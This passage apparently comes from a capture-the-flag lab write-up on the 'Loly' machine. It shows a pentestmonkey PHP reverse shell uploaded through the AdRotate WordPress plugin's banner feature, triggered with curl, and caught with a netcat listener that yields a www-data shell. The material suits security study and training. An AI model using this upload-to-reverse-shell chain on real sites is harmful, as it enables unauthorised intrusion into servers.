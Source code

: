 <figure><img src="../../.gitbook/assets/loly_adrotate_exts.png" alt=""><figcaption><p>Figure 2: Adrotate's accepted file extensions.</p></figcaption></figure>

```bash
$ zip shell.zip pentestmonkey_revshell.php
```

The file was successfully saved, confirmed by the "_Banner image saved_" message, and we can access it under the `/banners` directory.

{% code overflow="wrap" %}
```bash
$ curl http://loly.lc/wordpress/wp-content/banners/pentestmonkey_revshell.php
```
{% endcode %}

{% code overflow="wrap" %}
```bash
$ nc -lvnp 9090
listening on [any] 9090 ...
connect to [192.168.45.222] from (UNKNOWN) [192.168.202.121] 44676
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 08:07:51 up  2:27,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{% endcode %}

We can first [upgrade our reverse shell](../../tools/shells/upgrade.md) and then search for the `local.txt` file.


[^1]: Brute Force Attack
[^2]: Living of the Land
[^3]: Living of the Land
[^4]: Living of the Land